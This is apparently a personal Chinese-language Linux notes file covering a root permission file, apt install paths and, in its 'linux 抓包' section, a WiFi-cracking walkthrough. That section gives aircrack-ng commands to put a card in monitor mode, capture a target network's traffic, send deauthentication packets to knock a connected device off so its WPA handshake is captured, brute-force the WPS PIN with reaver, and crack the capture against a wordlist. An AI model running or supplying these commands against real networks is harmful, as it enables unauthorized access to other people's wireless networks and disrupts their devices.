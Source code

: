 这个文件是记录root用户权限的，权限必须是只读，如果改了，则再也不能切换root用户。所以在切换普通用户之前要把权限改回来。

如果是wsl改不回来了，可以在win中创建一个只读文件传进去。

### ~~apt~~

apt命令安装的tomcat，它的很多组件是分开存储的。  

下载的软件的存放位置：/var/cache/apt/archives  
安装后软件的默认位置：/usr/share  
可执行文件位置：/usr/bin  
配置文件位置：/etc  
lib文件位置：/usr/lib

### linux 抓包

aircrack+ac210网卡

```shell
#iwconfig
记下wlan名字

#开启监控模式
airmon-ng start wlan0

#扫描wifi列表
airodump-ng wlan0mon，然后CTRL C 记录bssid

#捕获wifi
airodump-ng --bssid F4:83:CD:B5:84:19(待破解的wifi的ssid) -c 1(CH信道channel
) -w（保存包的路径） /home/ wlan0mon
    station 记录的就是当前连接的终端

#打开另一个终端进行攻击
aireplay-ng -0 8 -c 66:9C:A1:A0:38:9F（正在连这个wifi的设备的ssid） -a F4:83:
CD:B5:84:19 wlan0mon

#当终端出现
 WPA handshake: C8:F8:6D:2F:F6:7D
就成功抓包了
```

#pin 
airodump-ng wlan0mon
#scan wps
wash -i wlan0mon
#attack
reaver -i wlan0mon -b (bssid) -vv -c (CH) 

#kali 自带解包
ircrack-ng -w pass.txt freedom-*.ivs

### linux代理pn
